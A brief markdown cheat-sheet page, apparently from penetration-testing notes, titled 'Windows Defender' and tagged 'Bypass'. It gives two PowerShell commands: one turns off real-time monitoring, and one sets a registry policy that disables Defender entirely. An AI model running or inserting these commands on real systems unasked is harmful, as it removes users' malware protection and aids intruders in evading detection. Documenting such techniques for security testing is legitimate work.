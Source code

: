 ```yaml
---
title: "Windows Defender"
date: 2024-7-16
tags: ["Bypass", "Defender", "AV", "Anti-Virus", "Windows"]
---
```


### Disable defender

{{< tab set1 tab1 active >}}Powershell{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Disable realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true
```

```console
# Completely disable defender
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

{{< /tabcontent >}}
